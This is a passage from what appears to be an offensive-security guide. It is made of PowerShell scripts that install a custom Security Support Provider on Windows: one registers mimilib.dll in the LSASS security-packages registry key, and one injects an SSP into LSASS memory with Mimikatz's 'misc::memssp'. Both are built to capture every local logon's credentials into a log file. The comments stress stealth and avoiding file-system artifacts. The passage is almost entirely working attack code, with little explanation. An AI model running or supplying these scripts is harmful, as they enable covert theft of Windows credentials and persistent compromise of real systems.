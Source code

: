 ```powershell
                Set-ItemProperty -Path $mainSecurityPackagesPath -Name "Security Packages" -Value $mainPackagesList
                Write-Host "Added mimilib to main Security Packages registry" -ForegroundColor Green
            }
        }
        
        Write-Host "Custom SSP installation completed successfully" -ForegroundColor Green
        Write-Host "All local logons will be logged to C:\Windows\system32\mimilsa.log" -ForegroundColor Red
        
    } catch {
        Write-Host "Failed to install Custom SSP: $($_.Exception.Message)" -ForegroundColor Red
    }
    
} else {
    Write-Host "mimilib.dll not found in current directory" -ForegroundColor Red
    Write-Host "Download mimilib.dll from Mimikatz repository" -ForegroundColor Yellow
}
```

#### **Method 2: Memory-Based SSP Injection (memssp)**
```powershell
# Objective: Inject custom SSP directly into LSASS memory
# Impact: Real-time credential capture without file system artifacts
# Note: Less stable on Server 2019/2022 but more stealthy

Write-Host "=== CUSTOM SSP VIA MEMORY INJECTION (MEMSSP) ===" -ForegroundColor Red

# Step 1: Check if we have administrative privileges
$isAdmin = ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")

if($isAdmin) {
    Write-Host "Running with administrative privileges - proceeding with memssp injection" -ForegroundColor Green
    
    # Step 2: Use Mimikatz to inject custom SSP into LSASS
    try {
        Write-Host "Injecting custom SSP into LSASS process..." -ForegroundColor Yellow
        
        # Execute memssp command via Mimikatz
        Invoke-Mimikatz -Command '"misc::memssp"'
        
        Write-Host "Custom SSP injection completed successfully" -ForegroundColor Green
        Write-Host "All local logons will be logged to C:\Windows\System32\kiwissp.log" -ForegroundColor Red
        Write-Host "Note: This method is less stable on newer Windows Server versions" -ForegroundColor Yellow
        
    } catch {
        Write-Host "Failed to inject Custom SSP: $($_.Exception.Message)" -ForegroundColor Red
        Write-Host "Consider using mimilib.dll method instead" -ForegroundColor Yellow
    }
    
} else {
    Write-Host "Administrative privileges required for memssp injection" -ForegroundColor Red
    Write-Host "Use mimilib.dll method or elevate privileges" -ForegroundColor Yellow
}
```
